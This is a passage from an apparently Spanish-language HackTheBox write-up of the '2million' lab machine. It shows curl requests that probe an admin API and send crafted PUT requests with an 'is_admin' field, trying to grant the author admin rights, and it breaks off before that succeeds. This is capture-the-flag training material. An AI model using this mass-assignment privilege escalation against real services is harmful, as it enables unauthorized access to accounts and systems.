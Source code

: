 ```null
      "POST": {
        "/api/v1/admin/vpn/generate": "Generate VPN for specific user"
      },
      "PUT": {
        "/api/v1/admin/settings/update": "Update user settings"
      }
    }
  }
}
```

Compruebo si soy usuario Administrador

```null
curl -s -X GET http://2million.htb/api/v1/admin/auth -H "Cookie: PHPSESSID=6uhbsaq0ijeop2ujkk3nm2bjl0" | jq
{
  "message": false
}
```

Puedo añadirme el rol. El método que espera es PUT

```null
curl -s -X PUT http://2million.htb/api/v1/admin/settings/update -H "Cookie: PHPSESSID=6uhbsaq0ijeop2ujkk3nm2bjl0" | jq
{
  "status": "danger",
  "message": "Invalid content type."
}
```

Agrego la cabecera del ```Content-type```

```null
curl -s -X PUT http://2million.htb/api/v1/admin/settings/update -H "Cookie: PHPSESSID=6uhbsaq0ijeop2ujkk3nm2bjl0" -H "Content-type: application/json" | jq
{
  "status": "danger",
  "message": "Missing parameter: email"
}
```

Por cada parámetro que falta muestra un error

```null
curl -s -X PUT http://2million.htb/api/v1/admin/settings/update -H "Cookie: PHPSESSID=6uhbsaq0ijeop2ujkk3nm2bjl0" -H "Content-type: application/json" -d '{"email":"rubbx@rubbx.com"}' | jq
{
  "status": "danger",
  "message": "Missing parameter: is_admin"
}
```

Igualo ```is_admin``` a ```1```, que sería la opción booleana de true

```null
curl -s -X PUT http://2million.htb/api/v1/admin/settings/update -H "Cookie: PHPSESSID=6uhbsaq0ijeop2ujkk3nm2bjl0" -H "Content-type: application/json" -d '{"email":"rubbx@rubbx.com", "is_admin": "true"}' | jq
{
  "status": "danger",
  "message": "Variable is_admin needs to be either 0 or 1."
}
```
